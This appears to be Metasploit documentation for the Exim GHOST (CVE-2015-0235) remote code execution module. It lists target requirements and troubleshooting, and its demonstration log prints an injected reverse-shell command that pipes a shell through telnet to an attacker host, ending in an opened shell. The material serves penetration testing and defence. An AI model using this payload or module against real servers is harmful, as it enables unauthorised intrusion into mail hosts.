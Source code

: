 The Exim GHOST buffer overflow is a vulnerability found by researchers from Qualys. On March 17th 2015, Qualys released an exploit module demonstrating the exploitability of this flaw, which is now exim_gethostbyname_bof.rb in Metasploit Framework.

When Qualys released the exploit, it included a lot of technical details for debugging and usage purposes. We decided to put all that here in a more readable format.

## What is "GHOST"

This is a heap based buffer overflow found in GNU C Library's **g**et**host**byname functions since glibc-2.2 (November 10, 2000), which is part of the Linux operating system, such as: Debian, Red Hat, CentOS, and Ubuntu.
## Exploitable Requirements
**On the server-side (victim):**

* glibc-2.6 - glibc-2.17: The exploit depends on the newer versions' fd_nextsize (a member of the malloc_chunk structure) to remotely obtain the address of Exim's smtp_cmd_buffer in the heap.
* Exim server. The first exploitable version is Exim-4.77, maybe older. The exploit depends on the newer versions' 16-KB smtp_cmd_buffer to reliably set up the heap as described in the advisory.
* The Exim server also must enable helo_try_verify_hosts or helo_verify_hosts in the /etc/exim4/exim4.conf.template file. The "verify = helo" ACL might be exploitable too, but the attack vector isn't as reliable, therefore not supported by the module.

For testing purposes, if you need to find a vulnerable system, you can try Debian 7 (it should come with an exploitable Exim server):
http://ftp.cae.tntech.edu/debian-cd/dvd/debian-7.7.0-i386-DVD-1.iso

**On the attacker's side:**

* The attacker's IPv4 address must have both forward and reverse DNS entries that match each other (Forward-Confirmed reverse DNS).

## The check method

The GHOST exploit module comes with a check method. It is explicit, which means the check will actually try to trigger the vulnerability to determine if the host is vulnerable or not.

The check is also enforced when you use the "exploit" or "run" command. However, you can turn off the enforcement by setting the ```FORCE_EXPLOIT``` datastore option to true. For example:

```
set FORCE_EXPLOIT true
run
```

## Troubleshooting

If the exim_gethostbyname_bof.rb module has failed on you:

| Failure  | Explanation |
| -------- | ----------- |
| bad SENDER_HOST_ADDRESS (nil) | The SENDER_HOST_ADDRESS datastore option was not specified |
| bad SENDER_HOST_ADDRESS (not in IPv4 dotted-decimal notation) | The SENDER_HOST_ADDRESS datastore option was specified, but not in IPv4 dotted-decimal notation |
| bad SENDER_HOST_ADDRESS (helo_verify_hosts) | The SENDER_HOST_ADDRESS datastore option does not match the IPv4 address of the SMTP client (Metasploit), as seen by the SMTP server (Exim). |
| bad SENDER_HOST_ADDRESS (no FCrDNS) | the IPv4 address of the SMTP client (Metasploit) has no Forward-Confirmed reverse DNS. |
| not vuln? old glibc? (no leaked_arch) | the remote Exim server is either not vulnerable, or not exploitable (glibc versions older than glibc-2.6 have no fd_nextsize member in their malloc_chunk structure). |
| NUL, CR, LF in addr? (no leaked_addr) | Exim's heap address contains bad characters (NUL, CR, LF) and was therefore mangled during the information leak; this exploit is able to reconstruct most of these addresses, but not all (worst-case probability is ~1/85, but could be further improved). |
| Brute-force SUCCESS" followed by a nil reply, but no shell | the remote Unix command was executed, but spawned a bind-shell or a reverse-shell that failed to connect (maybe because of a firewall, or a NAT, etc). |
| Brute-force SUCCESS" followed by a non-nil reply, and no shell | The remote Unix command was executed, but failed to spawn the shell (maybe because the setsid command doesn't exist, or awk isn't gawk, or netcat doesn't support the -6 or -e option, or telnet doesn't support the -z option, etc). |

## Module Demonstration

When everything is dialed in correctly, a successful attack should look like the following:

```
msf exploit(exim_gethostbyname_bof) > run
[*] Started reverse double handler
[*] Trying information leak...
[!] {:heap_shift=>736}
[!] {:write_offset=>128, :error=>"503 sender not yet given"}
[!] {:write_offset=>136, :error=>"\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given"}
[!] {:error=>["\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given", "", "503 \x89\x10", "177", "177\\177\\177", "vJN\\177\\177\\177\\177"]}
[!] {:leaked_arch=>"x86"}
[!] {:count=>{"\xE0.\xFF\xB7\xE0.\xFF\xB7er not yet given"=>8, "hF\xFE\xB7hF\xFE\xB7er not yet given"=>2}}
[+] Successfully leaked_arch: x86
[+] Successfully leaked_addr: b7fda760
[*] Trying code execution...
[!] ${run{/usr/bin/env setsid /bin/sh -c "sh -c '(sleep 4011|telnet 192.168.1.64 4444|while : ; do sh && break; done 2>&1|telnet 192.168.1.64 4444 >/dev/null 2>&1 &)'"}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fda760", :offset=>21}
[!] {:reply=>{:code=>"250", :lines=>["250 Accepted\r\n"]}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fda760", :offset=>25}
[!] {:reply=>{:code=>"250", :lines=>["250 Accepted\r\n"]}}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd8fd7", :offset=>20}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd8fd7", :offset=>8}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd784e", :offset=>6}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd784e", :offset=>12}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd60c5", :offset=>19}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd60c5", :offset=>29}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd493c", :offset=>23}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd493c", :offset=>18}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd31b3", :offset=>14}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd31b3", :offset=>3}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd1a2a", :offset=>29}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd1a2a", :offset=>28}
[!] {:helo=>6144, :step=>6025, :addr=>"b7fd02a1", :offset=>26}
[!] {:reply=>{:code=>"550", :lines=>["550 sikVtqGxFOjCBOWTbDupmIuJRmLmShFNqqUYRRPUolyxPmmgLCenEzConuVGWafjgycyRfXulGNwmAOvkqZkGobMyUIMPojZsaziCjVVyvabOrcieEWrLZSgnCCXHeXjIzGGfUALAIubgBEmsKsSWSGa\r\n"]}}
[+] Brute-force SUCCESS
[+] Please wait for reply...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo qaNpBmRBEus9XoVZ;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "qaNpBmRBEus9XoVZ\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.1.64:4444 -> 192.168.1.166:58859) at 2015-03-19 03:36:52 -0500
[!] {:reply=>nil}
id
uid=104(Debian-exim) gid=112(Debian-exim) groups=112(Debian-exim)
```

## References:

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-0235
* https://community.qualys.com/blogs/laws-of-vulnerabilities/2015/03/17/ghost-remote-code-execution-exploit
* https://www.qualys.com/research/security-advisories/GHOST-CVE-2015-0235.txt?_ga=1.171218720.101498705.1426692159
* https://www.qualys.com/research/security-advisories/GHOST-CVE-2015-0235.txt?_ga=1.136230833.101498705.1426692159
